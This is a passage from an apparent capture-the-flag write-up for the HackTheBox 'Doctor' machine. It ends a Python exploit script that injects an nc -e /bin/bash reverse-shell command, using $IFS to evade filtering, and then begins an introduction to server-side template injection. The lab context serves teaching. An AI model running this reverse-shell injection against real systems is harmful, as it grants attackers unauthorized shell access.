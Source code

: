 ```py
	headers = {"Content-Type": "application/x-www-form-urlencoded"}
	data = {"title": "XSS", "content": "http://%s/$(nc.traditional$IFS-e$IFS'/bin/bash'$IFS'%s'$IFS'%s')" %(lhost,lhost,lport), "submit": "Post"}
	r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local ip appress', required=True)
    parser.add_argument('-lp', '--localport', help='Local port', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.localip
    lport= args.localport

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Create a login
    createLogin(rhost)
    # Logging on the app
    Login(rhost)
    # Getting the reverse shell
    revShellCmdInjection(rhost,lhost,lport)
    
if __name__ == '__main__':
    main()
```

## SSTI

Now we'll explore it with Server Side Template Injection. It's another vuln we got on this box, and it's very useful to explain it also.

From `PayloadALlTheThings` we got

```
Template injection allows an attacker to include template code into an existing (or not) template. A template engine makes designing HTML pages easier by using static template files which at runtime replaces variables/placeholders with actual values in the HTML pages
```

You can also see the methodology [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#methodology)

I recommend you to read it.

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-03-HackTheBox-Doctor/2021-09-03-HackTheBox-Doctor%2010:18:33.png)

We will try to execute it, make the template engine render our payload, if we get success, we identify what is the Template Engine, and get a payload for it.
